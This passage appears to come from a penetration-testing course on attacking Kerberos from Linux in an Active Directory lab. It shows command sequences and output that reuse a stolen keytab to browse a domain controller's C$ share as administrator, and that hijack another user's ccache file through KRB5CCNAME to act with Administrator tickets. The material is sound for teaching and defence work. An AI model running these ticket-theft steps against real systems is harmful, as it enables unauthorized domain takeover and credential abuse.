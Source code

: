 We can also reload expired tickets with `kinit -R`:
```bash
root@linuxvictim:~# kinit -R
```

Now that the keytab is loaded, we can use it to authenticate as the administrator:
```bash
root@linuxvictim:~# smbclient -k -U "CORP1.COM\administrator" //DC01.CORP1.COM/C$
WARNING: The "syslog" option is deprecated
Try "help" to get a list of possible commands.
smb: \> ls
$Recycle.Bin DHS 0 Sat Sep 15 03:19:00 2018
Documents and Settings DHS 0 Tue Jun 9 13:50:42 2020
pagefile.sys AHS 738197504 Fri Oct 2 11:25:15 2020
PerfLogs D 0 Mon Jun 15 15:04:37 2020
Program Files DR 0 Mon Jun 15 08:10:03 2020
Program Files (x86) D 0 Tue Jun 9 08:43:21 2020
ProgramData DH 0 Mon Jun 15 15:04:37 2020
Recovery DHS 0 Tue Jun 9 13:50:45 2020
SQL2019 D 0 Tue Jun 9 08:34:53 2020
System Volume Information DHS 0 Tue Jun 9 07:38:26 2020
Tools D 0 Mon Jun 15 08:09:24 2020
Users DR 0 Mon Jun 15 15:22:49 2020
Windows D 0 Mon Jun 15 15:04:45 2020
6395903 blocks of size 4096. 2185471 blocks available
```

# Attacking Using Credential Cache Files

The first scenario is quite simple. If we compromise an active user’s shell session, we can essentially act as the user in question and use their current Kerberos tickets. Gaining an initial TGT would require the user’s Active Directory password. However, if the user is already authenticated, we can just use their current tickets.

The second scenario is to authenticate by compromising a user’s ccache file. As we noted earlier, a user’s ccache file is stored in /tmp with a format like /tmp/krb5cc_. The file is typically only accessible by the owner. Because of this, it’s unlikely that we will be able to steal a user’s ccache file as an unprivileged user.

We can use the ticket as follows:
```bash
offsec@linuxvictim:~$ kdestroy

offsec@linuxvictim:~$ klist
klist: No credentials cache found (filename: /tmp/krb5cc_1000)

offsec@linuxvictim:~$ export 
KRB5CCNAME=/tmp/krb5cc_minenow

offsec@linuxvictim:~$ klist
Ticket cache: FILE:/tmp/krb5cc_minenow
Default principal: Administrator@CORP1.COM
Valid starting Expires Service principal
07/30/2020 15:11:10 07/31/2020 01:11:10 krbtgt/CORP1.COM@CORP1.COM
renew until 08/06/2020 15:11:08
07/30/2020 15:11:41 07/31/2020 01:11:10 ldap/dc01.corp1.com@CORP1.COM
renew until 08/06/2020 15:11:08
07/30/2020 15:11:57 07/31/2020 01:11:10 MSSQLSvc/DC01.corp1.com:1433@CORP1.COM
renew until 08/06/2020 15:11:08
offsec@linuxvictim:~$ kvno MSSQLSvc/DC01.corp1.com:1433
MSSQLSvc/DC01.corp1.com:1433@CORP1.COM: kvno = 2
offsec@linuxvictim:~$ klist
Ticket cache: FILE:/tmp/krb5cc_minenow
Default principal: Administrator@CORP1.COM
Valid starting Expires Service principal
```